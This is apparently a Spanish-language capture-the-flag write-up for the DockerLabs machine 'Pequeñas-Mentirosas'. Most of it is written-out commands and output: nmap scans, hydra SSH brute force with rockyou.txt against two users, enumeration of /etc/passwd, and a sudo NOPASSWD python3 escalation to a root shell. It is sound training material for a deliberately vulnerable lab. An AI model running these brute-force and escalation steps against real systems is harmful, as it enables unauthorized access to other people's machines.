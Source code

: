 ```yaml
---
title: Pequeñas-Mentirosas
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-05-30
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-pequenas-mentirosas/pequenas-mentirosas_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - tcp
  - ssh
  - http
  - data leaks
  - password attacks
  - sudo abuse
  - information gathering
  - data leak exploitation
  - lateral movement
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ ping -c 1 172.17.0.3
PING 172.17.0.3 (172.17.0.3) 56(84) bytes of data.
64 bytes from 172.17.0.3: icmp_seq=1 ttl=64 time=0.074 ms

--- 172.17.0.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.074/0.074/0.074/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ nmap -p- --open -sS --min-rate 5000 -vvv 172.17.0.3 -n -Pn -oG nmap1
Host: 172.17.0.3 ()	Status: Up
Host: 172.17.0.3 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ nmap -sCV -vvv -p22,80 172.17.0.3 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 9e1058a51a429dbee519d12e799cce21 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC3N2iZE0Bb73S64lNUXiTtz3cITYUJqgbwvelAku4TIER/XzzRFH4jPuOjFW8MHqVgohznWwxFyrEbhJs71kHI=
|   256 6ba3a884e03357fc444969417dd3c992 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM3f1ALx7tSZjnqhdGlIXkcEcJCIS12yR5pEzywnF6rQ
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Site doesn't have a title (text/html).
MAC Address: E6:92:E9:02:8A:7E (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ whatweb 172.17.0.3
http://172.17.0.3 [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[172.17.0.3]
```

---
## Data Leak Exploitation

Al acceder a la página principal, el navegador muestra una pista indicando que la clave para el usuario `A` puede encontrarse en los archivos.

![](assets/img/dockerlabs-writeup-pequenas-mentirosas/pequenas-mentirosas1_1.png)

Con base en esta sugerencia, ejecuto un ataque de fuerza bruta sobre el servicio SSH utilizando hydra y el diccionario `rockyou.txt`.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ hydra -l a -P /opt/rockyou.txt ssh://172.17.0.3 -t 40 -I
[22][ssh] host: 172.17.0.3   login: a   password: secret
```

Se descubre la combinación válida de credenciales para el usuario `A`.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ ssh a@172.17.0.3
a@172.17.0.3's password: secret

a@4a7bc786dcf2:~$ id
uid=1001(a) gid=1001(a) groups=1001(a)
```

---
## Lateral Movement

```terminal
a@4a7bc786dcf2:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
spencer:x:1000:1000::/home/spencer:/bin/bash
a:x:1001:1001::/home/a:/bin/bash
```

Enumerando usuarios del sistema mediante `/etc/passwd`, se detecta la presencia de `spencer`. Ejecuto un nuevo ataque de fuerza bruta, esta vez dirigido al usuario `spencer`. El proceso revela que la contraseña utilizada es débil y está presente en el diccionario.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ hydra -l spencer -P /opt/rockyou.txt ssh://172.17.0.3 -t 40 -I
[22][ssh] host: 172.17.0.3   login: spencer   password: password1
```

Con las credenciales válidas, accedo al sistema como el nuevo usuario.

```terminal
/home/kali/Documents/dockerlabs/pequeñas-mentirosas:-$ ssh spencer@172.17.0.3
spencer@172.17.0.3's password: password1

spencer@4a7bc786dcf2:~$ id
uid=1000(spencer) gid=1000(spencer) groups=1000(spencer)
```

---
## Privilege Escalation

Consulto los permisos `sudo` disponibles para el usuario actual. El binario `/usr/bin/python3` puede ejecutarse como `root` sin necesidad de contraseña.

```terminal
spencer@4a7bc786dcf2:~$ sudo -l
Matching Defaults entries for spencer on 4a7bc786dcf2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User spencer may run the following commands on 4a7bc786dcf2:
    (ALL) NOPASSWD: /usr/bin/python3
```

Aprovecho esta configuración para ejecutar una shell privilegiada.

```terminal
spencer@4a7bc786dcf2:~$ sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash -p")'

root@4a7bc786dcf2:/home/spencer# id
uid=0(root) gid=0(root) groups=0(root)
```

